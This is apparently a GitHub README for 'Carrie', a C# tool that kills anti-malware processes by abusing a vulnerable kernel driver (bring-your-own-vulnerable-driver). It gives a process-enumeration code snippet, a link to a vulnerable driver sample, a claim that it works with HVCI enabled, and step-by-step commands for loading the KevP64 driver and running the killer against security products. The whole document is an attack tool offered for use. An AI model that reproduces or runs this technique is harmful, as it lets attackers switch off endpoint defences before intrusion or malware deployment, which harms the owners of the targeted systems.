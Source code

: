 # Carrie
C# Anti-Malware Multi-Process Killer (BYOVD)

![image](https://github.com/ph4nt0mbyt3/Carrie/assets/137841478/d675538a-1470-4e9d-865c-0ba771cf20ab)




This code is designed to kill multiple process based on Company Name of the processes, and can be changed to use Description instead.

```
 static List<uint> GetProcessIdsByCompanyName(string companyName)
    {
        var processIds = new List<uint>();
        var processes = Process.GetProcesses();
        foreach (var process in processes)
        {
            try
            {
                var processModule = process.MainModule;                   
                if (processModule != null && processModule.FileVersionInfo.CompanyName == companyName)   #You can easy adapt this.
                {
                    processIds.Add((uint)process.Id);
                }
            }
            catch (Exception)
            {

            }
        }
        return processIds;
    }
```

Sample of vulnerable driver: https://www.loldrivers.io/drivers/73196456-40ae-4b6d-8562-07cf99458a7d

Works with HVCI enabled: HVCI is designed to ensure the integrity of code executed in the kernel, but it cannot protect against all possible vulnerabilities or actions that can be performed through drivers or system interfaces.

# Steps

1) Load and start the KevP64 Driver
```
sc create KevP64 binPath="c:\path\to\driver.sys" type= kernel start= demand
sc start KevP64
```

2) Start Carrie
```
Carrie.exe
```

3) Type the CompanyName propertie of the process owner or description until you receive the message "Can't find any process related, try again". This means that all processes belonging to the provided CompanyName/Description are no longer running. 
